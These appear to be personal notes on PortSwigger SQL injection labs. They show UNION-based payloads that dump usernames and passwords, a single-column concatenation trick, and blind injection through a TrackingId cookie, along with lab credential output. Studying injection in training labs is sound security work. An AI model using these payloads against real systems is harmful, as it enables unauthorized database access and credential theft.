 ```py


GET /filter?category=Gifts'+UNION+SELECT+USERNAME_GHYBLH,+PASSWORD_NBSZJM+FROM+USERS_VAGUZR-- HTTP/1.1

# administrator
# 03rapwtg19wcl9lvh3pd
# carlos
# rvh4rbusrrz8vysx5qn2
# wiener
# obri1mfbrntngpleiena
```


---

# LAB: SQL injection UNION attack, retrieving multiple values in a single column

[SQL injection UNION attack, retrieving multiple values in a single column](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)


```py
# the query is returning two columns, both of which contain text,:
GET /filter?category=Gifts'+UNION+SELECT+NULL,NULL+FROM+DUAL-- HTTP/1.1
GET /filter?category=Gifts'+UNION+SELECT+'a','b'+FROM+DUAL-- HTTP/1.1



# to retrieve the contents of the users table::
GET /filter?category=Food+%26+Drink'+UNION+SELECT+NULL,username||'~'||password+FROM+users-- HTTP/1.1

# administrator~myvak00qtke14qpsoo1m
# carlos~5fr4ekg5n0j8e4t9vnn8
# wiener~2ynzd67h3hild5ktpbs1


```


---

# Lab: Blind SQL injection with conditional responses

```py
# Cookie: TrackingId=GSJW5oV1q7S8PSRV; session=MiqLG5dxEgKSGSfePCdZ3M36i5Q7Ws75

# modify the request containing the TrackingId cookie.


Cookie: TrackingId=x'+OR+1=1--; session=MiqLG5dxEgKSGSfePCdZ3M36i5Q7Ws75
# -  "Welcome back" message appears in the response.


Cookie: TrackingId=x'+OR+1=2--; session=MiqLG5dxEgKSGSfePCdZ3M36i5Q7Ws75
# - the "Welcome back" message does not appear in the response.



Cookie: TrackingId=x'+UNION+SELECT+'a'+FROM+users+WHERE+username='administrator'--
# - Verify that the condition is true, confirming that there is a user called administrator.

```